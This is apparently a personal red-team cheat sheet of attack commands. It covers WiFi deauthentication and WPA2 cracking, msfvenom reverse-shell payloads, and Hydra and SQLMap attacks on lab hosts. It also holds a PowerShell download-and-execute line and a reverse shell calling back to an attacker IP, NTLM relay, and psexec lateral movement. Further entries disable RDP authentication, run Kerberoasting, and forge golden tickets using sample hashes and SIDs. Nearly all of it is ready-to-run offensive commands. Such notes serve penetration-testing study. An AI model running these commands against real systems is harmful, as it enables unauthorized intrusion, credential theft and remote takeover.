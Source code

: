 # red_team_notes

Linux Commands
  ifconfig
  iwconfig
  pwd
  cat
  tac
  cd
  rm -rf
  rmdir
  mkdir
  updatedb
  locate
  grep
  apt-get update
  apt-get upgrade
  
Windows Commands
  hostname
  systeminfo
  whoami /groups
  whoami /all

Change MAC
  ifconfig wlan0 down
  ifconfig wlan0 hw ether 00:11:22:33:44:55
  ifconfig wlan0 up

Monitor Mode
  ifconfig wlan0 down
  airmon-ng check kill
  iwconfig wlan0 mode monitor
  ifconfig wlan0 up

SNORT
   sudo snort -c /etc/snort/snort.conf -l /var/log/snort/

Tor
  sudo service tor start

WiFi Scan
  iwconfig
  airodump-ng wlan0

Capture WPA2 Handshake
  airodump-ng --bssid [mac] --channel [ch] --write wpa2_handshake wlan0

Deauthenticate
  aireplay-ng --deauth4 -a [mac] -c [mac] wlan0

Wordlists
  /usr/share/metasploit-framework/data/wordlists/unix_users.txt
  /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
  /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
  /usr/share/wordlists/rockyou.txt
  /usr/share/wordlists/dirb/common.txt

Generate Wordlist
  crunch <min> <max> [options]

Crack WPA2
  aircrack-ng [handshake_file] -w wordlist

Nessus
  /bin/systemctl start nessusd.service
  https://kali:8834/

MITMProxy
  cd /opt/mitmproxy
  ./mitmweb

MSFVenom
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f exe > shell.exe
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f exe > shell.exe
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f elf > shell.elf
  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/alpha_mixed -f python

MSFConsole
  msfconsole
  use
  set
  run
  sessions
  sessions -i [id]
  background

Hydra
  hydra -L allowed.userlist -P allowed.userlist.passwd 10.129.56.5 -V http-form-post '/login.php:Username=^USER^&Password=^PASS^&Submit=Login:S=Location'
  hydra -L usernames.txt -P passwords.txt 10.129.28.62 -V http-form-post '/admin:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:S=Location' -s 8080

Python
  python -c 'import pty;pty.spawn("/bin/bash")'
  python -m SimpleHTTPServer 8080
  python3 -m http.server 8080
  
Powershell
  powershell -c "Invoke-WebRequest -Uri 'http://10.2.8.146:8000/shell.exe' -OutFile 'c:\Windows\Temp\shell.exe'"

SQLMap
  sudo sqlmap -u http://10.10.77.108/vulnerabilities/sqli/?id=1\&Submit=Submit --cookie='PHPSESSID=pnfsn1i25k0i4af1tmvstj7m55; security=low' --dbs
  sudo sqlmap -u http://10.10.77.108/vulnerabilities/sqli/?id=1\&Submit=Submit --cookie='PHPSESSID=pnfsn1i25k0i4af1tmvstj7m55; security=low' -D dvwa --columns
  sudo sqlmap -u http://10.10.77.108/vulnerabilities/sqli/?id=1\&Submit=Submit --cookie='PHPSESSID=pnfsn1i25k0i4af1tmvstj7m55; security=low' -D information_schema --schema
  sudo sqlmap -u http://10.10.77.108/vulnerabilities/sqli/?id=1\&Submit=Submit --cookie='PHPSESSID=pnfsn1i25k0i4af1tmvstj7m55; security=low' -D dvwa --dump
  
WPScan
  wpscan --url '' --api-token='' --enumerate u/vp/vt
  
cameradar
  sudo docker run -t ullaakut/cameradar -t 91.105.153.138
  
CrackMapExec
  crackmapexec smb 10.0.2.0/24 -u user -d DOMAIN.local -p Password
  crackmapexec smb 10.0.2.0/24 -u user -d DOMAIN.local -p Password --shares
  crackmapexec smb 10.0.2.0/24 -u user -d DOMAIN.local -p Password --users
  crackmapexec smb 10.0.2.0/24 -u user -d DOMAIN.local -H HASHES --shares
  crackmapexec smb 10.0.2.0/24 -u user -H HASHES --local-auth
  
Responder
  sudo nano /etc/responder/Responder.conf
  [SMB On][HTTP On]
  sudo responder -I eth0 -dPv
  
NTLMRelayx
  sudo nano /etc/responder/Responder.conf
  [SMB Off][HTTP Off]
  sudo responder -I eth0 -dPv
  python3 ntlmrelayx.py -tf targets.txt -smb2support
  python3 ntlmrelayx.py -tf targets.txt -smb2support -i
  
psexec
  python3 psexec.py DOMAIN.local/user:Password@10.0.2.18

wmiexec
  python3 wmiexec.py DOMAIN.local/user:Password@10.0.2.18
  
smbexec
  python3 smbexec.py DOMAIN.local/user:Password@10.0.2.18
  
Evil-WinRM

rpcclient
  rpcclient -U"%" -N
  enumdomusers

enum4linux
  enum4linux -a 10.0.2.17 -u DOMAIN.local/user -p Password

smbclient
  python3 smbclient.py DOMAIN.local/user:Password@10.0.2.18
  
Load Powershell Script Remotely
  IEX (New-Object Net.WebClient).DownloadString('http://10.0.2.15:8080/Invoke-PowerShellTcp.ps1');
  
Reverse Powershell
  nc -lvnp 4444
  Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.15 -Port 4444
  
Enable RDP
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 /f
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  netsh advfirewall firewall set rule group="remote desktop" new enable=yes
  sc start TermService
  
RDP
  xfreerdp /u:user /d:DOMAIN.local /p:Password /v:10.0.2.18
  
PrivEsc Checks
  SharpUp.exe audit
  Import-Module .\PowerUp.ps1
  Invoke-AllChecks
  
List Processes
  Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartName | Where-Object {$_.State -like 'Running'}
  
Kerberoasting
  Rubeus.exe kerberoast /user:username /nowrap /outfile:hash.txt
  impacket-GetUserSPNs DOMAIN.local/user:Password -dc-ip 10.0.2.17 -request
  hashcat -m 13100 hash.txt rockyou.txt
  
Golden Ticket
  kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt

  .\Rubeus.exe ptt /ticket:ticket.kirbi
  klist #List tickets in memory

  Example using aes key
  kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
  
  python3 ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
  export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
  python3 psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
